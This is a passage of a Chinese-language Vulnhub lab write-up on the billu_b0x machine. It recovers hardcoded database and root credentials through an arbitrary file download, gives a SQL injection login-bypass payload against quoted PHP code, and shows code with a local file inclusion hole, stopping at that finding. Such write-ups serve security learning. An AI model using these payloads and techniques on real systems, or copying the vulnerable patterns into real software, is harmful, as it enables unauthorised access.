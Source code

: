 根据之前扫到的目录，可以将源代码全部下载下来：
```
add.php in.php head.php index.php panel.php show.php test.php
```
打开`c.php`:
```
$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");
```
得到了数据库的账号密码`billu:b0x_billu`,这样就可以登录`phpmyadmin`了,由于Mysql权限比较低，不能写shell。但在首页可以知道`phpmyadmin`的版本是**3.4.7**,尝试在搜索引擎上找漏洞，没啥收获。

不过查到了`phpmyadmin`的配置文件中会有服务器的账号密码，借助之前的那个任意文件下载，我们可以获得配置文件`config.inc.php`。

![](http://osn75zd5c.bkt.clouddn.com/Vulnhub-billub0x-Writeup-4.png)

就直接获取了靶机的root的账号密码`root:roottoor`

![](http://osn75zd5c.bkt.clouddn.com/Vulnhub-billub0x-Writeup-5.png)

再加上靶机开着ssh服务，直接ssh连接登录就行。

虽然目的达到了，但拿到权限的方法肯定不止这一种，继续寻找。
然后我找到了两种登录的方法。
一是从`phpmyadmin`中登录数据库，我们可以在auth表里面获得账号密码
```
uname:biLLu
pass:hEx_it
```
二是从index.php中，我们可以找到实现登录功能的代码：
```
$uname=str_replace('\'','',urldecode($_POST['un']));
$pass=str_replace('\'','',urldecode($_POST['ps']));
$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
$result = mysqli_query($conn, $run);
```
可以看到进行查询的SQL语句，可以构造`un=or 1=1 %23\&ps=or 1=1 %23\`来绕过验证，实现登录,或者直接注入出账号密码，两个方式都行。

对panel.php进行代码审计，发现一个本地文件包含漏洞

```
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}
```
![](http://osn75zd5c.bkt.clouddn.com/Vulnhub-billub0x-Writeup-6.png)
